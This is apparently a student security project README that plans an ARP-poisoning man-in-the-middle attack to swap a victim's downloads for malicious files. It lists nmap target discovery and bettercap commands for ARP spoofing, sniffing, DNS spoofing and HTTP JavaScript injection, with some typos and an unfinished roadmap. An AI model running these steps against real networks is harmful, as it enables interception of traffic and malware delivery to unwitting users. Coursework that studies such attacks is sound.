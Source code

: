# Internet and Network Security project

## ARP spoofing, also known as ARP poisoning

### Project idea

To use ARP poisoning to inject malice files when the user downloads a file.
Our setup will discover if someone downlaods a file, and instead our file is downloaded

### Goal

To have a docker container which has all the needed tools, programs, scripts, ... installed

#### Road map

- [ ] Manage ARP spoofing
- [ ] Listening to downloads and what files
- [ ] Replace downloaded file with our file

### What do do

1) Be in the same wifi
2) find out ip of target `nmap`
3) 


```
# Wireshark
ip.addr == 192.168.22.101
```

### Terminal

```
# show arp
arp -a

# delete arp
arp -d -a
```

### Bettercap

192.168.178.118

```
sudo bettercap -iface eth0


active

net.show

# Spoofing

net.prope on

set arp.spoof.targets <IP>

arp.spoof on

set net.sniff.output 

net.sniff on


```

### Setup DNS

https://crawler.ninja/files/http-sites.txt

```
set dns.sppof.domains <domain>
```

### Http proxy

```

set http.proxy.injectjs ./http-inject.js

http.proxy on

```

### Sources

#### Videos

* [how Hackers SNiFF (capture) network traffic // MiTM attack](https://youtu.be/-rSqbgI7oZM?si=xtfKk-oAmu4ksEZM)

#### Articles

### Tools

#### [Wireshakr](https://www.wireshark.org/)

Tool to listen/show network traffic

#### [nmap](https://nmap.org/)

Network discovery

#### [Ettercap](https://www.ettercap-project.org/)

To perform man in the middle attack

#### [Bettercap](https://www.bettercap.org/)

To perform man in the middle attack

##### Docker

```
docker pull bettercap/bettercap
docker run -it --privileged --net=host bettercap/bettercap -h
```

#### [mitmproxy](https://mitmproxy.org/)

#### [ARP Spoofing Tool](https://github.com/davidlares/arp-spoofing)

Script to perform man in the middle attack
